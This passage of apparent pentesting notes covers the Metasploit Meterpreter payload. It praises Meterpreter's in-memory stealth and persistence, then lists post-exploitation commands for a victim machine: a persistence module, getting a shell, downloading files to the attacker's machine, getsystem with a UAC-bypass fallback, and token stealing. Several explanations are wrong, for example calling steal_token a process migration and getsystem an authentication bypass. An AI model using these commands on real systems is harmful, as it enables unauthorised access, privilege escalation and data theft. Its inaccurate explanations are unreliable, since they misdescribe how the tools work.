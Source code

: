 
## Meterpreter

The Meterpreter payload is a specific type of multi-faceted payload that uses `DLL injection` to ensure the connection to the victim host is stable, hard to detect by simple checks, and persistent across reboots or system changes. Meterpreter resides completely in the memory of the remote host and leaves no traces on the hard drive, making it very difficult to detect with conventional forensic techniques.

When having an active session on the victim machine, the best module to run a Meterpreter is s4u_persistence:

```msf
use exploit/windows/local/s4u_persistence

show options

sessions 
```


### Meterpreter commands

```
# view all available commands
help 
  
# Obtain a shell. Exit to exit the shell
shell  

# View information about the system
sysinfo

# View the id that meterpreter assigns to the machine
machine_id

# Print the network configuration
ifconfig 

# check routing information
route   

# Download a file
download /path/to/fileofinterest.txt /path/to/ourmachine/destinationfile.txt

# Upload a file
upload /path/from/source.txt /path/to//destinationfile.txt

# Bypass the authentification. It takes you from normal user to admin
getsystem
# If the operation fails because of priv_elevated_getsystem error message, then use the  bypassuac module: use exploit/windows/local/bypassuac

# View who you are
getuid  

# View all running processes
ps

# Migrate to a different process with more privileges
steal_token <PID>

# View the process that we are
getpid

```